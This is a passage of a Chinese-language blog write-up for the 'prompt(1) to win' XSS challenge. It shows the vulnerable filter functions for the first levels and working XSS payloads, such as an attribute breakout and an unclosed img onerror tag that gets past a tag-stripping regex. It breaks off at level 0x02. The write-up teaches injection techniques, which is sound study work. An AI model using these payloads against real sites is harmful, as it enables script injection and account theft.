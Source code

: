 ```yaml
---
layout: post
title: prompt(1)-to-win-Write-Up
date: 2017-07-28 
tags: XSS(未完成)  
---
```



## 介绍

### 关于站点

这个站点的灵感来自于[alert(1) to win](https://alf.nu/alert1)。在没有用户交互的情况下调用`prompt(1)`就算作成功。

### 0x00

第一题源码是这样的

	function escape(input) {
	    // warm up
	    // script should be executed without user interaction
	    return '<input type="text" value="' + input + '">';
	}        

![](/images/posts/xss/1.png)
此处的input就是你输入的所在位置。第一题源码很简单，先使用`1">`，句子成为`<input type="text" value="1"> ">`这样就使<input>闭合掉了。这时候就可以随心所欲的写入xss语句了。例如最常见的语句`<script>prompt(1)</script>`。拼合起来就是Payload：

`1"><script>prompt(1)</script>`

### 0x01

源码如下，这里用正则全局匹配过滤了`<xxx>`，那我们就构造`<xxx`不加上`>`。这种要求img标签可以实现，所以`<img src="#" onerror=prompt(1)`。但是现在处于`<article>`标签下，所以使用`//`注释符注释掉，这样img标签就不在article便签下，也就能正常工作了。

	function escape(input) {
	    // tags stripping mechanism from ExtJS library
	    // Ext.util.Format.stripTags
	    var stripTagsRE = /<\/?[^>]+>/gi;
	    input = input.replace(stripTagsRE, '');
	
	    return '<article>' + input + '</article>';
	}      
	
所以最后的Payload如下：
`<img src="#" onerror=prompt(1)//`

### 0x02

 源码源码源码～～～
 
	 function escape(input) {
	    //                      v-- frowny face
	    input = input.replace(/[=(]/g, '');
	
	    // ok seriously, disallows equal signs and open parenthesis
	    return input;
	}   
	
`=（`被过滤了，

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [0x00-X-Man夏令营](http://127.0.0.1:4000/2017/07/prompt(1)-to-win-Write-Up/)  